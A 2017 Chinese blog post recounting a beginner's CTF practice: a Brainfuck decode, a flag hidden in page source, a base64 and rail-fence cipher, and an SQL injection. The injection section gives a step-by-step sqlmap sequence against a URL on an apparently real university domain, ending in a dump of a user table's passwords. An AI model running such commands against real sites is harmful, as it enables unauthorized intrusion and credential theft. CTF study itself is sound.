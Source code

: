 ```yaml
---
layout: post
title:  "ctf练习（1）"
desc: "新手上路"
keywords: "ctf"
date: 2017-2-13
categories: [work]
tags: [blog]
icon: fa-bookmark-o
---
```


#Crypto 1
---

看题目名字就知道是brainfuck，网上找到一个在线解brainfuck的网站，复制粘贴解码得到flag{welcome.html}

---



#Web 1
---

打开他给的网址，有一个“key就在这里”。当然啦。这是坑人的。查看一下源码，发现有个php，打开就能找到flag

---

#Web 3
---
天大的一个网站。别人提醒我说用sqlmap跑。吼那就sqlmap咯。
首先就是
`sqlmap -u "http://tutv.tju.edu.cn/Category?p=88952634&id=3&k=88952634&order=88952634"`
这个是用来判断是否有sql注入吧。
![](https://raw.githubusercontent.com/yujiarui/yujiarui.github.io/master/static/img/ctf/1.png)

然后就是查询数据库
`sqlmap -u "http://tutv.tju.edu.cn/Category?p=88952634&id=3&k=88952634&order=88952634" --dbs`
![](https://raw.githubusercontent.com/yujiarui/yujiarui.github.io/master/static/img/ctf/2.png)

查询完数据库之后找表
`sqlmap -u "http://tutv.tju.edu.cn/Category?p=88952634&id=3&k=88952634&order=88952634" -D tutv --tables`
![](https://raw.githubusercontent.com/yujiarui/yujiarui.github.io/master/static/img/ctf/3.png)

找到了表之后，查询字段
`sqlmap -u "http://tutv.tju.edu.cn/Category?p=88952634&id=3&k=88952634&order=88952634" -D tutv -T user --columns`
![](https://raw.githubusercontent.com/yujiarui/yujiarui.github.io/master/static/img/ctf/4.png)

这时候就能发现password。我们需要的也是password。
`sqlmap -u "http://tutv.tju.edu.cn/Category?p=88952634&id=3&k=88952634&order=88952634" -D tutv -T user -C password --dump`
![](https://raw.githubusercontent.com/yujiarui/yujiarui.github.io/master/static/img/ctf/5.png)

得到密码。

（ps：如果不知道-C是什么意思可以输入命令 sqlmap -h寻求帮助）

---

#Msic 1
---

签到题，base64解出第一次加密。第二次加密用的是栅栏密码。这里的话每三个为一组，从上往下读就能得到flag。

---